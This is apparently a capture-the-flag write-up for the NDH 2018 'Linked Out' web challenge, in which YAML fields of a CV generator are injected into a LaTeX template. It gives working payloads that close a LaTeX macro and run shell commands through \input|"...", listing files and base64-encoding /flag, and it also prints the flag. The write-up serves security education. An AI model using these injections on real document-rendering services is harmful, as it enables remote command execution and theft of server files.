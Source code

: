 ```yaml
---
title: Quals NDH 2018 - Linked Out
authors: cnotin
layout: writeup
ctf_url: https://nuitduhack.com/
---
```

Solves: 58 / Points: 300 / Category: Web
## Challenge description
> This service build an awesome curriculum vitae for you ! Test it, recruiters will enjoy it ! The developper of this chall too ;)

We have a "Curriculum Vitæ Generator" website where we can upload a little form in YAML format with all the required information.
Once the form is uploaded, a very nice resume is generated in PDF format with the provided information.

The website explains that the tool it uses is *[posquit0's Awesome-CV](https://github.com/posquit0/Awesome-CV)*.

## Challenge resolution
### LaTeX injection
Here is the beginning of the sample YAML file:
```yaml
cv:
  personal_informations:
    firstname: Bruce
    lastname: Schneier
    address: 221b Baker Street, London, ENGLAND
    position: Security Expert ; Master of Internet
  contacts:
    mobile: +12 3 456 789 012
    email: bruce.schneier@it-is-not-my-real-email.com
    homepage: https://www.schneier.com/
    github: schneier-not-my-real-account
    gitlab: schneier-not-my-real-account
    linkedin: schneier-not-my-real-account
    twitter: schneierblog
    skype: schneier-not-my-real-account
    reddit: schneier-not-my-real-account
    xing: schneier-not-my-real-account
  misc:
    extrainfo: Buy one of my books!
    quote: '"Bruce Schneier knows your password before you do." --- https://www.schneierfacts.com'
[...]
```

We know that the used tool is based on LaTeX. It expects a `.tex` file with information in the following format:
```tex
\twitter{@twit}
\skype{skype-id}
\reddit{reddit-id}
\extrainfo{extra informations}
[...]
```

Our first intuition is that our inputs are simply inserted in the `.tex` file. So we could inject arbitrary LaTeX instructions.
Let's verify by trying to close an instruction then re-open it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{AAAAAAAAAA
```

The injection is successful since the generated PDF returns `AAAAAAAAAA` in the Skype field instead of `BBBBBBBBBBBBBB`:
![Linked Out injection](/assets/linkedout-injection.png){: .image }

### LaTeX injection to command execution
So we can inject LaTeX instructions: now, how to obtain the flag?
We remembered [articles about code injection in LaTeX files](https://0day.work/hacking-with-latex/). There are some prerequisites but we might get lucky.

We found a [Stack Exchange answer](https://tex.stackexchange.com/a/20566) sharing a nice compact syntax to execute shell commands and include the output in the document. Let's try it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{\input|"ls *"}%
```
It was indeed successful:
![Linked Out ls command](/assets/linkedout-command-ls.png){: .image }

### Get the flag
Extracting the flag with a `cat` command did not work. We thought that its content could create an invalid `.tex` file.
Therefore we used `base64` to obtain it encoded.
```yaml
  skype: BBBBBBBBBBBBBB}\skype{\input|"base64 /flag"}%
```
![Linked Out base64 flag](/assets/linkedout-flag-b64.png){: .image }

Decode it and get the flag:
```shell
$ echo -ne "TkRIe0FuZF9Eb25hbGRfS251dGhfY3JlYXRlZF90aGVfaVRlWH0K" | base64 -d  -
NDH{And_Donald_Knuth_created_the_iTeX}
```
